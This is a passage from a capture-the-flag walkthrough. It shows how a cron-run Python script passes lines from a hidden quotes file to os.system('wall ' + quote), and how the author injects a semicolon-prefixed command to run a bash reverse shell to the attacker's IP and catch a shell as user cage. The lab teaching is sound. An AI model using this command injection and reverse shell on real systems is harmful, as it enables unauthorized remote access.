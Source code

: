 It randomly chooses a line from another file in the same directory (`.files/.quotes`) and uses `wall` command to broadcast those lines. Let's check where the source of the lines is. There is a hidden folder in `/opt/.dads_scripts`, named `.files` that contains a file named `.quotes`. Let's check the content of this file:

~~~
weston@national-treasure:/opt/.dads_scripts$ cd .files/
weston@national-treasure:/opt/.dads_scripts/.files$ cat .quotes 
"That's funny, my name's Roger. Two Rogers don't make a right!" — Gone in Sixty Seconds
"Did I ever tell ya that this here jacket represents a symbol of my individuality, and my belief in personal freedom?" — Wild at Heart

[REDACTED]

"It's like we're on two different channels now. I'm CNN and she's the Home Shopping Network." — It Could Happen to You
~~~

It is just a lot of quotes from different people. I haven't pointed this out yet, but if you're doing the room with me, you have noticed a cronjob which is running the python script that we saw earlier which broadcasts the same lines that we see here, every 3 minutes.

### Exploit

We don't have write access to the python script, but we can replace the messages with a reverse shell and how is it going to be executed you might ask. Well, if you take another look at the python script, you can see that the last line of the code is running `wall` command plus the quote variable:

~~~py
os.system("wall " + quote)
~~~

We are changing this variable to a bash reverse shell and by adding a semicolon (`;`) to the start of our payload, we end the `wall` command and run our reverse shell.

Here's how it's done. First open a listener (`rlwrap nc -lvnp 4444`) and then we need to create our reverse shell in a file to be able to copy it and after doing so, we mark it as executable. Finally we do the replacement using `printf` (Don't forget to add your IP to the last command):

~~~
$ cat > /tmp/shell.sh << EOF
> #!/bin/bash
> bash -i >& /dev/tcp/<YOUR IP>/4444 0>&1
> EOF
$ chmod +x /tmp/shell.sh 
$ printf 'sth;/tmp/shell.sh\n' > /opt/.dads_scripts/.files/.quotes
~~~

Now if you have done everything right, you should have a shell as user `cage` in your listener:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Break_Out_The_Cage/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.**.**] from (UNKNOWN) [10.10.180.15] 39716
bash: cannot set terminal process group (1456): Inappropriate ioctl for device
bash: no job control in this shell
cage@national-treasure:~$ id
uid=1000(cage) gid=1000(cage) groups=1000(cage),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd)
~~~
